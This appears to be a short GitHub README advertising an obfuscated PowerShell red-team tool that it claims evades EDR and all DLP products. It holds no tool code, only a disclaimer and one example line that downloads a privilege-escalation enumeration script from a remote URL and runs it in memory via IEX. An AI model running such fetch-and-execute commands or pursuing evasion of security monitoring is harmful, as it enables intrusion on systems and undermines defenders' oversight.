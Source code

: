 # Highly Obfuscated Undetectable PowerShell Red Team Tool

## Overview

I have developed a highly obfuscated and undetectable PowerShell Red Team Tool. This tool allows users to download or access it in any monitoring browser or EDR system. It is designed to bypass EDR detection and overcome all DLP solutions, providing a seamless download experience without any restrictions.

## Features

- Highly obfuscated for increased stealth
- Undetectable by EDR systems
- Bypasses all DLP solutions
- Seamless download experience

## Usage

Google IT How to load Powershell In memeory 

Note: Ensure that you have the necessary permissions and legal authorization before using this tool.

## Disclaimer

This tool is intended for educational and red teaming purposes only. Usage for any malicious activities is strictly prohibited. The developer is not responsible for any misuse or damage caused by this tool.

## Contributing

Feel free to contribute by submitting bug reports or feature requests.







## Example
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"

